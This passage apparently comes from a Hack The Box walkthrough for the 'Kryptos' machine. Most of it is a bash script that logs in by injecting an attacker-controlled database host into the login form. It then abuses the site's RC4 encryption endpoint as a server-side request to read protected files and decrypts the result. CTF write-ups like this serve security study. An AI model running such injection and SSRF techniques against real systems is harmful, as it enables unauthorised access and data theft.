 Let\'s give it a shot.

<a class="image-popup">
![e268c9c7.png](/assets/images/posts/kryptos-htb-walkthrough/e268c9c7.png)
</a>

Looks good. Here's the code to `read.sh`.

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

IP=$(ifconfig | grep -A1 tun0 | sed '2!d' | awk '{ print $2 }')
COOKIE=$(mktemp -u)
HOST=10.10.10.129
HOSTNAME=kryptos
FILE=$1
NAME="${FILE%.*}"
DOCROOT=/var/www/html
SECRET=dev/d9e28afcf0b274a5e0542abb67db0784
README="http://$HOSTNAME/$SECRET/$FILE"
README=$(urlencode "$README")
CIPHER="encrypt.php?cipher=RC4&url=$README"

TOKEN=$(curl -c $COOKIE \
             -s \
             http://$HOST \
        | grep token \
        | cut -d'"' -f6)

# login
curl -b $COOKIE \
     -s \
     -o /dev/null \
     -d "username=admin" \
     -d "password=admin" \
     -d "db=cryptor%3Bhost%3D$IP" \
     -d "token=$TOKEN" \
     -d "login=" \
     "http://$HOST/index.php"

# encrypt
RC4=$(curl -b $COOKIE \
           -s \
           "http://$HOST/$CIPHER" \
      | sed -r '/<textarea/,/<\/textarea>/!d' \
      | head -1 \
      | cut -d'>' -f2 \
      | cut -d'<' -f1)

# decrypt
python xor.py "$RC4" \
| sed '1,5d'

# clean up
rm -f $COOKIE
```